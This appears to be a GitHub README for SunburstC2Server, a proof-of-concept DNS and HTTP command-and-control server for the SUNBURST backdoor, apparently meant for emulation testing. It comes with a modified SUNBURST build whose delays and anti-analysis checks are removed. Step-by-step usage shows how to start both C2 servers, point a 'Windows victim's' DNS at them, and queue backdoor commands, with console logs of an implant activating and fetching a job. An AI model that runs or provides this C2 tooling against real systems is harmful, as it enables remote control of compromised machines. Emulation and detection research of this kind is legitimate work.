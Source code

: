<!--
*** Thanks for checking out the Best-README-Template. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Thanks again! Now go create something AMAZING! :D
***
***
***
*** To avoid retyping too much info. Do a search and replace for the following:
*** CreatePhotonW, SunburstC2Server, @CreatePhotonW, email, SunburstC2Server, PoC Sunburst DNS and HTTP C2 server
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
<!--
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![LinkedIn][linkedin-shield]][linkedin-url]
-->


<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/CreatePhotonW/SunburstC2Server">
<!--    <img src="images/logo.png" alt="Logo" width="80" height="80"> -->
  </a>

  <h3 align="center">SunburstC2Server</h3>

  <p align="center">
    PoC Sunburst DNS and HTTP C2 server
    <br />
<!--    <a href="https://github.com/CreatePhotonW/SunburstC2Server"><strong>Explore the docs »</strong></a> -->
    <br />
    <br />
    <!--
    <a href="https://github.com/CreatePhotonW/SunburstC2Server">View Demo</a>
    ·
    -->
    <a href="https://github.com/CreatePhotonW/SunburstC2Server/issues">Report Bug</a>
    ·
    <a href="https://github.com/CreatePhotonW/SunburstC2Server/issues">Request Feature</a>
  </p>
</p>



<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>



<!-- ABOUT THE PROJECT -->
## About The Project

<!--
[![Product Name Screen Shot][product-screenshot]](https://example.com)
-->

SunburstC2Server is a proof of concept DNS and HTTP C2 servers for the SUNBURST malware based public technical writeups and sample reversing. With this, it is possible to utilize SUNBURST to run backdoor commands.

Also included is a version of SUNBURST that is convenient for testing this C2 implementation. Delays are drastically shortened and anti-analysis checks are not performed.
This C2 server would work with the unmodified sample, but waiting days to execute calc is no fun :)

<!-- 
### Built With

* []()
* []()
* []()

-->



<!-- GETTING STARTED -->
## Getting Started

To get a local copy up and running follow these simple steps.

### Prerequisites

* python3

* python packages

    ```
    sudo pip install -r requirements_dns.txt
    sudo pip install -r requirements_http.txt
    ```

### Installation

1. Clone the repo
   ```sh
   git clone https://github.com/CreatePhotonW/SunburstC2Server.git
   ```

<!-- USAGE EXAMPLES -->
## Usage

1. On a server (local or remote) run:
```
python3 sunburst_httpc2.py
```
2. In the HTTP C2 shell, type `auto_execute 5 calc` and hit enter
3. On a server (local or remote) run (replace `127.0.0.1` with the IP address of the HTTP C2 server):
```
python3 sunburst_dnsc2.py --httpc2ip 127.0.0.1
```
4. In the DNS C2 shell, type `auto_activate` and hit enter
5. Change your Windows victim's DNS server to point to the IP address of the DNS C2 server
6. Build the Visual Studio solution
7. Run SolarWinds.BusinessLayerHost.exe
8. Wait 30-60 seconds
9. SolarWinds.BusinessLayerHost.exe will reach out to the DNS C2 server and progress through the Activation phase
```
                    ___                          __        ___                    ________  
  ________ __  ____ \_ |__  __ _________  ______/  |_   __| _/ ____   ______ ____ \_____  \ 
 /  ___/  |  \/    \ | __ \|  |  \_  __ \/  ___/   __\ / __ | /    \ /  ___// ___\ /  ____/ 
 \___ \|  |  /   |  \| \_\ \  |  /|  | \/\___ \ |  |  / /_/ ||   |  \\___ \\  \___/       \ 
/____  \____/|___|  /|___  /____/ |__|  /____  \|__|  \____ ||___|  /____  \\___  /_______ \
     \/           \/     \/                  \/            \/     \/     \/     \/        \/
    
Welcome to the Sunburst DNS C2 Coordinator.
Type help or ? to list commands.

(sunburst) auto_activate
	Sunbeams will begin activation when they first connect
(sunburst) (01:08:27) [*] New sunbeam found: b'4f4774e0740a7e72'
(01:08:27) [*] sunbeam preactivated (activation step 1/2): b'4f4774e0740a7e72'
(01:08:37) [*] sunbeam activated (activation step 2/2): b'4f4774e0740a7e72'
```
10. SolarWinds.BusinessLayerHost.exe will reach out to the HTTP C2 server and fetch its first backdoor command.
```
                    ___                          __    /\      __    __                ________  
  ________ __  ____ \_ |__  __ _________  ______/  |_ |  |__ _/  |__/  |_______   ____ \_____  \ 
 /  ___/  |  \/    \ | __ \|  |  \_  __ \/  ___/   __\|  |  \\   __\   __\____ \_/ ___\ /  ____/ 
 \___ \|  |  /   |  \| \_\ \  |  /|  | \/\___ \ |  |  |      \|  |  |  | |  |_\ \  \___/       \ 
/____  \____/|___|  /|___  /____/ |__|  /____  \|__|  |___|  /|__|  |__| |   ___/\___  /_______ \
     \/           \/     \/                  \/            \/            |__|        \/        \/
    
Welcome to the Sunburst HTTP C2 Server.
Type help or ? to list commands.

(sunburst) auto_execute 5 calc
	Sunbeam will process the next auto execute job in the queue on its next HTTP response
(sunburst) (01:08:39) [*] New sunbeam found: b'4f4774e0740a7e72'
```
11. SolarWinds.BusinessLayerHost.exe will run a RunTask job (id=5) to spawn calc


<!-- ROADMAP -->
## Roadmap

See the [open issues](https://github.com/CreatePhotonW/SunburstC2Server/issues) for a list of proposed features (and known issues).



<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

SecureIQlab [https://www.linkedin.com/company/secureiqlab/] ,CreatePhotonW - [@CreatePhotonW](https://twitter.com/CreatePhotonW)

Project Link: [https://github.com/secureiqlab/Sunburst-Emulation],[https://github.com/CreatePhotonW/SunburstC2Server]





